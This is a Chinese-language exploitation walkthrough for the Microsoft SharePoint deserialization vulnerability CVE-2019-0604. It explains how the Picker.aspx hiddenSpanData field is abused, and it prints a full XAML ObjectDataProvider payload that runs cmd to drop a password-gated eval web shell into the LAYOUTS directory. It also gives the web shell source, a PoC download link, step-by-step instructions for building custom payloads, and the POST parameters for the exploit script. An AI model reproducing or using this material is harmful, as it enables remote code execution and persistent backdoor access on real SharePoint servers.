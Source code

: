 （CVE-2019-0604）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

Microsoft
SharePoint是美国微软（Microsoft）公司的一套企业业务协作平台。该平台用于对业务信息进行整合，并能够共享工作、与他人协同工作、组织项目和工作组、搜索人员和信息。

Microsoft SharePoint
远程代码执行漏洞（CVE-2019-0594、CVE-2019-0604，高危）：Microsoft
SharePoint软件无法检查应用程序包源标记时触发该漏洞。攻击者可在SharePoint应用程序池和SharePoint服务器中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016SharePoint Foundation 2013 SP1harePoint Server 2010 SP2SharePoint Server 2019

三、复现过程
------------

ItemPicker Web 控件实际上从来没有在一个 .aspx
页面中使用过。但是看看它基类型的用法，EntityEditorWithPicker，说明在
/\_layouts/15/Picker.aspx 应该有一个 Picker.aspx 文件使用了它。

该页面要求使用选择器对话框的类型通过 URL 的 PickerDialogType
参数的形式提供。在这里，可以使用以下两种 ItemPickerDialog
类型中的任何一种：

    · Microsoft.SharePoint.WebControls.ItemPickerDialog in             Microsoft.SharePoint.dll
    · Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog in Microsoft.SharePoint.Portal.dll

利用第一种 PickerDialogType 类型

当表单提交 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的值以 "\_\_" 为开头时(类似于"\_dummy")，

EntityInstanceIdEncoder.DecodeEntityInstanceId(string)
处的断点将显示以下情况：而调用另外一种 ItemPickerDialog
类型时，函数调用栈只是在最上面的两个有所不同。

这表明 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的数据最终出现在了
EntityInstanceIdEncoder.DecodeEntityInstanceId(string) 中。
剩下的只需要拷贝实例 ID 和构造一个 XmlSerializer 的 payload 就可以了。

**完整POST以及具体参数如下：**

URL：`/Picker.aspx?PickerDialogType=控件的程序集限定名`

参数：
`ctl00%24PlaceHolderDialogBodySection%24ctl05%24hiddenSpanData=payload`

实际上还需访问Picker.aspx附带的其它参数，测试我不附带其它参数时提交表单是失败的。

poc
---

> https://download.0-sec.org/Web安全/Microsoft
> SharePoint/CVE20190604-Payload.7z

**解说k8gege的cve-2019-0604-exp.py**

老实说k8gege的py脚本有点花哨，一大堆的16进制字符串，分成 payload1,2,3,
好坏呀

python脚本远程post的payload,反序列化之后是一个xml数据体

    <ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:System="clr-namespace:System;assembly=mscorlib"
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd</System:String>
            <System:String>/c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" </System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    </ResourceDictionary>

![3.png](resource/(CVE-2019-0604)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

即远程执行echo命令，向服务器SharePoint的模板layouts目录写了一个up.aspx文件

    cmd /c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" 

生成了一个K8飞刀专用UA一句话木马.asxp，OK，shell到手

    <%@ Page Language="Jscript" %>
    <%
    var pwd="tom";
    var uastr=Request.UserAgent;
    if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) 
    {
        var code=uastr.Replace(pwd+"===","");
        eval(code,"unsafe"); 
    };
    %>

### 结合k8的poc构造我们自己的payload

-   1、 下载编译好的程序，解压运行CVE20190604Forms.exe

-   2、在Cmd文本框加输入命令，点击"Update XML"按钮，会将命令合并为xml

-   3、点击"EncodeEntity"，程序将xml字符串序列化为对象，并触发执行payload,
    序列化后的字符串显示在\"payload\"文本框中

```{=html}
<!-- -->
```
    __cp087135009700370047005600d600e2004400160047001600e20035005600270067009600360056003700e2009400e600470056002700e6001600c600e2005400870007001600e60046005600460075002700160......

-   4、 \"\_\_cp\....\" 这些字符串就是payload了，复制到
    cve-2019-0604-exp.py中，修改替换掉原来k8的payload，

-   5、向Picker.aspx提交payload时，需要附带的其它参数，可通过Burp代理工具，获取一下相关的参数，再将payload值传给
    ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData

```{=html}
<!-- -->
```
    ...

    values = {
        '__REQUESTDIGEST':YOUR_REQUESTDIGEST,
        '__EVENTTARGET':'',
        '__EVENTARGUMENT':'',
        '__spPickerHasReturnValue':'',
        '__spPickerReturnValueHolder':'',
        '__VIEWSTATE':YOUR_VIEWSTATE,
        '__VIEWSTATEGENERATOR':'',
        'ctl00$PlaceHolderDialogBodySection$ctl07$queryTextBox':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData':**YOUR_PayloadData**,
        'ctl00$PlaceHolderDialogBodySection$ctl05$OriginalEntities':'<Entities />',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityKey':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityDisplayText':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$downlevelTextBox':'&#160;',
        '__CALLBACKID':'ctl00$PlaceHolderDialogBodySection$ctl07',
        '__CALLBACKPARAM':';#;#11;#;#;#',
        '__EVENTVALIDATION':YOUR_EVENTVALIDATION
    }

    data = urllib.urlencode(values)

    ...

-   6、运行py脚本, good luck!!!

参考链接
--------

> https://github.com/boxhg/CVE-2019-0604/
